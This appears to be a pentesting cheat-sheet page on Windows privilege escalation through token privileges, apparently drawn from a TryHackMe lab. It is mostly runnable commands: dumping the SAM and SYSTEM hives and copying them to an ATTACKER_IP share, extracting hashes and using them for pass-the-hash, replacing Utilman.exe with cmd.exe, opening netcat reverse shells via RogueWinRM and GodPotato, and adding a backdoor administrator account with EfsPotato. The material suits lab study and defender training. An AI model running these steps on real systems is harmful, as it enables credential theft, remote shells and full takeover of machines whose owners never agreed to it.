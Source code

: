 # whoami /priv

```powershell
> whoami /priv
```

For a full list of privileges on Windows systems, refer [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). Attackers generally focus on those that enable system escalation. A detailed list of exploitable privileges is available on the [Priv2Admin GitHub project](https://github.com/gtworek/Priv2Admin).

## SeBackupPrivilege&#x20;

<figure><img src="../../../../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

This privilege allows the user to read all the files in the system.

Let's create a Temp directory and move into it.

```powershell
mkdir C:\Temp
cd C:\Temp
```

Exploit this privilege to read SAM and SYSTEM file via query.

> The **`SAM` (Security Account Manager)** hive contains local user account and group membership information, including their hashed passwords.&#x20;
>
> The **`SYSTEM`** hive contains system-wide configuration settings, such as the system boot key required to decrypt the password hashes stored in SAM

We will use the reg save command to perform a command in the registry, specify the location of the hive, and save it to a file in the current directory with the appropriate name.

```powershell
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Now download the files to attacker machine

{% code title="evil-winrm shell" %}
```powershell
> download sam
> download system
```
{% endcode %}

<details>

<summary>SMB Server</summary>

{% code overflow="wrap" %}
```bash
impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 public share
```
{% endcode %}

This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command in our windows machine to transfer both files.

```bash
C:\> copy c:\Temp\sam \\ATTACKER_IP\public\
C:\> copy c:\Temp\system \\ATTACKER_IP\public\
```



</details>

Now we can use `pypykatz` to read the content or we can use these files to dump hash with the tool `impacket-secretsdump`

<details>

<summary>Get files content with pypykatz</summary>

In kali these files is unreadable, but we can extract the hive secrets from SAM and SYSTEM file using pypykatz.

> **pypykatz**
>
> Mimikatz implementation in pure Python.&#x20;
>
> [https://github.com/skelsec/pypykatz](https://github.com/skelsec/pypykatz)

```bash
pypykatz registry --sam sam system -o registry.dump
# registry: Get secrets from registry files
# --sam SAM: path to the SAM registry hive
```

Now in the file `registry.dump` we have this:

<figure><img src="../../../../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>

With hash of these account we can try to perform a PtH like this:

```bash
evil-winrm -i <IP> -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

</details>

<details>

<summary>Dump hashes with impacket</summary>

```bash
impacket-secretsdump -sam sam -system system LOCAL
```

Use psexec to use the dumped credentials and take access to the target machine as administrator

{% code overflow="wrap" %}
```bash
impacket-psexec -hashes LM:NT administrator@MACHINE_IP
```
{% endcode %}

</details>



## SeTakeOwnership

The `SeTakeOwnership` privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable.

The standard method to use this privilege is:

1. Start a CMD as administrator
2. Search a Windows Program that is run with SYSTEM privileges. (Utilman, ...)
3. Taking ownership of the legitimate binary with the following command

```powershell
takeown /f C:\Windows\System32\Utilman.exe
```

As a file owner, you don't automatically have full control over it. However, you can grant yourself the necessary permissions. To gain full rights over the legitimate binary chose, use this command:

```powershell
icacls C:\Windows\System32\Utilman.exe /grant $USER:F
```

4. Replace the original binary for any payload we like.

```bash
copy cmd.exe utilman.exe
```



## SeImpersonate / SeAssignPrimaryToken

These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

To use this privileges to elevate our privilege we can use these programs:

### RogueWinRM

{% embed url="https://github.com/antonioCoco/RogueWinRM" %}

```bash
# attacker machine
nc -lvp 4444

# target machine
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4444"
```

&#x20;

### GodPotato

{% embed url="https://github.com/BeichenDream/GodPotato" %}

Download the executable from the link above, and transfer it to a target machine.

<pre class="language-powershell"><code class="lang-powershell"># target machine
<strong>cd C:\ProgramData
</strong><strong>curl http://ATT_IP/godpotato.exe -o godpotato.exe
</strong><strong>
</strong><strong># attack machine 
</strong><strong>nc -lvpn 4444
</strong><strong>
</strong><strong># target machine
</strong><strong>.\godpotato.exe -cmd "cmd /c powershell -e REV_SHELL_PAYLOAD"
</strong></code></pre>



### EFS Potato

{% embed url="https://github.com/zcgonvh/EfsPotato" %}

{% code overflow="wrap" %}
```
wget https://raw.githubusercontent.com/zcgonvh/EfsPotato/refs/heads/master/EfsPotato.cs

python3 -m http.server 80
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
curl http://10.23.52.142/EfsPotato.cs -o EfsPotato.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618

EfsPotato.exe whoami

# add new user in the administrators group
EfsPotato.exe "cmd.exe /c net user Antoadmin Password123! /add && net localgroup Administrators Antoadmin /add"
```
{% endcode %}





